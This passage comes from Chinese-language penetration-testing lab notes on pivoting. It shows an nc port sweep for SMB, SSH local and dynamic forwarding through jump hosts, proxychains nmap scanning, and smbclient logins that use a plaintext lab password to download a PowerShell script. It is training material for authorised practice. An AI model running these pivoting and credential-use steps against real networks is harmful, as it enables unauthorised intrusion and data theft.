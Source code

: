 ```armasm
ip route
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

发现一台

```armasm
172.16.50.217 445
```

现在想要在kali上连接172段的445端口

在跳板1上做本地端口转发到跳板2的172段

```armasm
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
ss -ntplu
```

kali上连接

```armasm
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
ls
get Provisioning.ps1
```

成功下载172主机上的ps1文件

### 18.3.2 动态端口转发

kali（192）---跳板1（192和10）---跳板2（10和172）--目标（172）

跳板1上开启9999端口做socks代理

```armasm
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

kali上设置proxychains4

```armasm
tail /etc/proxychains4.conf

socks5 192.168.50.63 9999
```

```armasm
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234

proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

### 18.3.3 远程端口转发

kali（192）---跳板1（192和10）---跳板2（10和172）

kali上开启ssh服务
